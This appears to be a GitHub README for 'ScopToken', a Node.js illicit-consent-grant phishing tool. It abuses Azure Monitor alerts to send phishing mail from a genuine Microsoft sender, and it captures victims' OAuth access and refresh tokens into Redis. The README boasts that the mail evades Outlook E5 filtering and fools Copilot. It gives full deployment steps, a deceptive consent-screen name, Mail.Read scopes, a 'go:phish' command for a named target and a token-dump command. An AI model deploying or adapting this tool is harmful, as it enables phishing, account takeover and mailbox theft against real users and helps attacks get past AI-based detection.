



# ScopToken

An illicit consent-grant framework built on Node.js, inspired by 365-stealer. Leverages Azure Monitor alerts to deliver phishing emails from `azure-noreply@microsoft.com` — note that Azure Monitor strips `.com`, `.net`, and any `/` from alert message bodies. Once a target consents, the app captures their `access_token` and `refresh_token` and persists them to Upstash Redis.

based on altered securities 365-stealer - https://github.com/AlteredSecurity/365-Stealer -

## Strengths

- The phishing email clears every mail filter tested, including Outlook E5 — it originates from a legitimate Microsoft sender
- No credit card required for any account involved; clean operational footprint
- TLS certificate comes directly from Microsoft's infrastructure
- urls that end with `.vercel.web` or `.web.app` are clickable in gmail 



- Convincing enough to fool Copilot



## Weaknesses / potential improvements

- The `.vercel.app` domain stands out to anyone with basic web experience as very unusual for windows  
- the target must copy the link and into ther browser if useing outlook 
- The app is unsigned, so Microsoft displays a prominent blue "unverified" banner on the consent screen



## First-time deploy

### 1. Prerequisites

- Node 20+
- A Vercel account (free): <https://vercel.com/signup>
- An Upstash Redis database (free): <https://console.upstash.com>
- Azure CLI (`az`): <https://learn.microsoft.com/cli/azure/install-azure-cli>

The Azure account you sign in with needs:
- **Global Administrator**, **Application Administrator**, **Cloud Application Administrator**, or **Privileged Role Administrator** in the Entra tenant — required by `entra-setup.sh` to create the app registration and by `consent:revoke` to delete permission grants
- **Owner or Contributor on an Azure subscription** tied to that tenant — required by `go:phish` to create resource groups and activity-log alerts

Set tenant roles: portal → **Microsoft Entra ID** → **Roles and administrators** → pick role → **+ Add assignments**  
Set subscription RBAC: portal → **Subscriptions** → your sub → **Access control (IAM)** → **+ Add role assignment**

### 2. Log in

```bash
# Vercel
npx vercel login
npx vercel link --yes   # creates the project and gives you the .vercel.app URL
```

```bash
# Azure — must be a work/school account (Entra tenant member), not a personal @outlook.com/@hotmail.com
az login
az account show         # verify tenantId and a real subscription id appear (not the same value twice)
```

### 3. Create `.env`

Create `.env` at the project root. `CLIENT_ID`, `CLIENT_SECRET`, and `TENANT` will be written back automatically by `entra-setup.sh` in the next step — leave them blank or omit them for now.

```ini
DISPLAY-NAME=<what shows on the Microsoft consent screen, e.g. "Microsoft Account Services">
SCOPES=openid profile email Mail.Read User.Read offline_access
REDIRECT_URI=https://<your-vercel-url>/login/authorized
DECOY_URL=https://outlook.office365.com/mail/inbox
LANDING_URL=https://<your-vercel-url>
ADMIN_TOKEN=<run: openssl rand -hex 32>
UPSTASH_REDIS_REST_URL=<from upstash console>
UPSTASH_REDIS_REST_TOKEN=<from upstash console>
LOG_LEVEL=info
TRUST_PROXY=1
```

| Variable | What it is | Where to get it |
|---|---|---|
| `DISPLAY-NAME` | The app name shown on Microsoft's consent screen. | Pick anything that looks legitimate |
| `SCOPES` | Space-separated delegated Graph permissions. **`openid` is required** — without it there's no `id_token` and user identity can't be extracted. | [Graph permissions reference](https://learn.microsoft.com/graph/permissions-reference) |
| `REDIRECT_URI` | OAuth redirect URI — must be HTTPS and match exactly what's registered on the app. | `https://<your-vercel-url>/login/authorized` |
| `DECOY_URL` | Where the target lands after consenting (or on silent failure). | `https://outlook.office365.com/mail/inbox` looks natural |
| `LANDING_URL` | The URL embedded in the phish email body by `go:phish`. Azure Monitor strips `.com`/`.net`/`/` — the script handles that. | Your Vercel URL |
| `ADMIN_TOKEN` | Bearer token gating `/admin/*`. | `openssl rand -hex 32` |
| `UPSTASH_REDIS_REST_URL` | REST endpoint of your Upstash Redis database. | [Upstash console](https://console.upstash.com) → your database → **REST API** tab |
| `UPSTASH_REDIS_REST_TOKEN` | Auth token for the REST endpoint. | Same tab |
| `LOG_LEVEL` | Pino log verbosity (`fatal`/`error`/`warn`/`info`/`debug`/`trace`). | `info` is fine; `debug` shows full request internals |
| `TRUST_PROXY` | Express trust-proxy hop count — Vercel adds exactly one hop, leave at `1`. | [Express docs](https://expressjs.com/en/guide/behind-proxies.html) |

### 4. Register the Entra app

`entra-setup.sh` reads your `.env`, creates (or reconciles) the Entra ID app registration, provisions a service principal, mints a client secret if needed, and writes `CLIENT_ID`, `CLIENT_SECRET`, and `TENANT` back into `.env` automatically.

```bash
bash src/scripts/entra-setup.sh
```

Safe to re-run — it finds an existing app by `CLIENT_ID` or display name rather than creating a duplicate.

### 5. Deploy

```bash
npm run deploy
```

Runs three things in sequence:

1. `az-setup.sh` — registers the Azure resource providers (`Microsoft.Insights`, `Microsoft.AlertsManagement`) that `go:phish` needs. Safe to re-run, checks state before acting.
2. `sync-env.js` — pushes every value in `.env` into Vercel project env (production).
3. `vercel deploy --prod` — builds and promotes. The aliased URL prints at the end.

### 6. Send the phish

```bash
npm run go:phish -- --e target@example.com
```

Creates a disposable Azure resource group, action group, and activity-log alert scoped to it. When the alert fires it sends an email from `azure-noreply@microsoft.com` to the target with the consent URL in the subject line. The script waits ~15 minutes for delivery, then deletes the resource group.

## npm scripts

| Script | What it does |
|---|---|
| `npm run dev` | Local dev via `vercel dev` (port 3000). |
| `npm run deploy` | Register Azure resource providers (`az-setup.sh`), sync env, then `vercel deploy --prod`. |
| `npm run logs` | Tail runtime logs from the latest production deployment. |
| `npm test` | Run the test suite (in-memory store, mocked token endpoint). |
| `npm run db:dump` | curl `/admin/export` with the bearer from `.env`; prints all captured token blobs as JSON. |
| `npm run db:clear` | Wipe every record from Redis. |
| `npm run consent:revoke [user@domain]` | Delete the Entra `oauth2PermissionGrant` via `az` so the next visit shows the consent screen fresh. Defaults to the currently `az`-logged-in user. |
| `npm run go:phish -- --e <target@email>` | Create a disposable Azure Monitor action group + activity-log alert that delivers the phish email to `<target@email>`, then cleans up after ~15 min. Requires `az login` and Owner/Contributor on the subscription. |

## Rotating secrets

```bash
# generate + sync a new ADMIN_TOKEN
sed -i '' "s/^ADMIN_TOKEN=.*/ADMIN_TOKEN=$(openssl rand -hex 32)/" .env
npm run deploy
```

Same flow for `CLIENT_SECRET` (after rotating in Azure) — edit `.env`, then `npm run deploy`.

